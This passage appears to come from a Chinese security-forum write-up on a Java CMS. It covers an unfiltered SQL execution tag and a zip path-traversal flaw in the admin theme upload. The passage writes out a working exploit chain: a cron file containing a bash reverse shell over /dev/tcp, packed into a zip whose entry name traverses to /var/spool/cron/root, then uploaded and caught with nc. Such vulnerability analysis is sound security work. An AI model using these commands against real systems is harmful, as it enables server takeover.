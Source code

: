 ### 漏洞定位

SQL XML映射文件：`src/main/resources/mapping/SqlMapper.xml`
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-adb2851b99a08ecaf31084dd2510d51815233b79.png)
非常简单，直接执行传入的SQL语句，没有任何过滤，也没有预编译。这里不能多行执行，也就是执行带有`;`号的SQL语句。
在 Mybatis SQL映射文件中可以通过在SQL语句中添加 `allowMultiQueries=true` 参数来允许多行执行。

```php
    SHOW TABLES;
    SELECT * FROM users;
```

模板自定义标签文件：`src/main/java/cc/iteachyou/cms/taglib/tags/SqlTag.java`
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-c0ba715bab0cd56778e739617afbcbd066807b79.png)
没有进行SQL过滤，但校验了SQL语句开头必须带有`select`，也就是确保只能执行查询语句。

## 后台压缩校验不正确导致Getshell

### 漏洞效果

我们先在 Linux 系统创建`..\*..\*..\*..\*..\*..\*..\*..\*..\*..\*var\*spool\*cron\*root`文件，并写入远连命令。

```php
echo "*/1 * * * * bash -i &gt;&amp; /dev/tcp/127.0.0.1/7777 0&gt;&amp;1" &gt; ..\*..\*..\*..\*..\*..\*..\*..\*..\*..\*var\*spool\*cron\*root
zip -r ./test3.zip ..\*..\*..\*..\*..\*..\*..\*..\*..\*..\*var\*spool\*cron\*root
```

![8.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-a6b9d22b26328456606820c3f33d34b17d6f496d.png)
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-a1d9bdfd8c27e95ff6b7664bc53e9703c632ee23.png)
打包完后，通过风格管理上传该压缩包。
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-107a16a037c005783006e03aeb0b148db5b5d99f.png)
提示主题描述不存在，问题不大，这说明解压完成了。
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-5bbedcd2d814e04f880e292e3aa57bb73e1c8fca.png)
在后台日志输出也能看到解压完毕。
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-2415ecdb6325dd4a0eada20009d0f880e18defd7.png)
接着我们到服务机器上看到我们的文件已经写进去了。
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-4323ae5bea3f4f9ce02a0bcc6005f37bddaeea92.png)
通过`nc -lvvp 7777`成功获得服务器权限。
![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-3356fdbb6d7614503f610ffa271cad5060e5bb87.png)

### 漏洞定位

Controller文件：`src/main/java/cc/iteachyou/cms/controller/admin/ThemesController.java`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/03/attach-e1512a35a58f3da4bca4d8916680f1c9b11065aa.png)
在添加主题中调用了`unZipFiles`，我们具体看看这个工具类方法。
工具类文件：`src/main/java/cc/iteachyou/cms/utils/ZipUtils.java`
